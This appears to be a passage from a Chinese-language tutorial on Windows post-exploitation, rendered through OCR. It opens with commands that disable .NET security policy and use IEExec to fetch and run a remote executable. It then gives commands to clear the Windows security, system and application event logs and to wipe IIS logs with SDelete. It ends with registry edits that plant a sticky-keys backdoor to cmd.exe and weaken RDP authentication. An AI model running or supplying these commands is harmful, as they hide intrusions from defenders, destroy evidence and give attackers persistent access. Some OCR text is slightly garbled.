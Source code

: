 ```
C:\Windows\Microsoft.NET\Framework\v 2 .0.50727> caspol -s off
C:\Windows\Microsoft.NET\Framework\v 2 .0.50727> IEExec.exe http://192.168.1.1/test.exe
```

## 0x02 痕迹擦除及持久化

完成一些操作之后，一定要做的就是清除自身的痕迹了，这里给出一点点比较基础的清理痕迹的命令，其实是更高级的操作我暂时没学会呀，比如暂停日志记录啥的。

#### 1-清除系统日志命令 1 （win03 系统可用）

```
wmic nteventlog where filename=’appevent’ cleareventlog 清除应用程序日志
wmic nteventlog where filename=’secevent’ cleareventlog 清除安全日志
wmic nteventlog where filename=’sysevent’ cleareventlog 清除系统日志
```



#### 2-清除系统日志命令 2 （win08及之后的系统使用）

```
wevtutil cl security 清除安全日志
wevtutil cl system 清除系统日志
wevtutil cl application 清除应用程序日志
```



#### 3-清理IIS日志和多次擦除文件

清理文件我们还是尽量多擦除几次，使用微软发布的SDelete工具（[下载地址](https://download.sysinternals.com/files/SDelete.zip)）

```
IIS6 的日志目录：C:\Windows\System32\LogFiles
IIS7、IIS8、IIS10日志目录：C:\inetpub\logs\LogFiles
想要清理IIS的日志，命令操作大致如下：
net stop w3svc
sdelete.exe -accepteula -p 3 C:\Windows\System32\LogFiles\W3SVC1\*.*
net start w3svc
------------------sdelete 用法------------------
sdelete.exe -accepteula -s c:\windows\temp\test\ 删除c:\windows\temp\test\文件夹中所有
sdelete.exe -accepteula -p 5 c:\windows\temp\test\*.exe 将文件夹中exe删除，并覆盖 5 次
```





#### 4-修改注册表实现shift后门(需要高权限)

shift后门的老方法是使用cmd替换文件，现在直接使用注册表进行配置。

```
REG ADD "HKLM\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Image File Execution
ptions\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v
UserAuthentication /t REG_DWORD /d 0
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v
SecurityLayer /t REG_DWORD /d 0
```
